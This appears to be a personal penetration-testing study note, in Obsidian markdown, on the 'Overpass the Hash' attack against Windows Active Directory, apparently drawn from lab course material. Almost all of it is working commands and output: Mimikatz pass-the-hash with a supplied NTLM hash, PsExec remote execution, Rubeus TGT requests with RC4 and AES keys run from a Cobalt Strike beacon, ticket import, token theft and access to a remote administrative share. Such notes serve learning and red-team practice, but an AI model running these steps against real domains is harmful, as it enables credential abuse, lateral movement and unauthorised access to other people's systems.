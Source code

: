 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Overpass the Hash]]  
___

## Description:  
abuse a NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT) or service ticket, which grants us access to another machine or service as that user (like right clicking an application and selecting "Run as different user").

### With Mimikatz in Powershell

```
mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

PS C:\Windows\system32> net use \\dc01
The command completed successfully.

PS C:\Windows\system32> klist

PS C:\Tools\active_directory> .\PsExec.exe \\dc01 cmd.exe
PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
C:\Windows\system32> whoami

```

list the cached Kerberos tickets with klist

If you have a service account hash an Pass the Ticket or [[Silver Ticket]] can be done.


### In CobaltStrike


Overpass-the-Hash (also known pass-the-key) allows authentication to take place over Kerberos rather than NTLM.  You can use the NTLM hash or AES keys for a user to request a Kerberos TGT.

Using NTLM hash

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /rc4:4ffd3eabdce2e158d923ddec72de979e /nowrap

[*] Action: Ask TGT
```

TGTs with the AES keys

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1 /nowrap /opsec

[*] Action: Ask TGT
```

Use `klist` to display the Kerberos tickets in the current logon session

```
beacon> run klist

Current LogonId is 0:0x1f253

Cached Tickets: (4)

#0>    Client: bfarmer @ DEV.CYBERBOTIC.IO
    Server: krbtgt/DEV.CYBERBOTIC.IO @ DEV.CYBERBOTIC.IO

#1>    Client: bfarmer @ DEV.CYBERBOTIC.IO
    Server: krbtgt/DEV.CYBERBOTIC.IO @ DEV.CYBERBOTIC.IO

```

To pass the TGT into this logon session, we can use Beacon's `kerberos_ticket_use` command. This requires that the ticket be on disk of our attacking workstation (not the target).

Powershell
```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\jkingTGT.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
```

bash
```
root@kali:~# echo -en "[...ticket...]" | base64 -d > jkingTGT.kirbi
```

Import in CS
```
beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\jkingTGT.kirbi

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)

```


If you're in an elevated context, Rubeus can shorten some of these steps.

```
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1 /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe

[*] Action: Ask TGT
[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3044
[+] LUID            : 0x85a103

[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Using aes256_cts_hmac_sha1 hash: a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jking'
[*] Target LUID : 8757507
[+] TGT request successful!
[*] base64(ticket.kirbi):

      [...ticket...]

[*] Target LUID: 0x85a103
[+] Ticket successfully imported!

  ServiceName           :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jking
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/4/2021 12:48:16 PM
  EndTime               :  3/4/2021 10:48:16 PM
  RenewTill             :  3/11/2021 12:48:16 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  Jr93ezQ6z+rc0/1h30UXaGxVkRLVsWSl9mG0nNeXuTU=

beacon> steal_token 3044
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 17:08:43   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/17/2021 18:28:36   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     02/17/2021 18:28:54   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     03/04/2021 10:12:52   pagefile.sys

```





___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (05:45 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
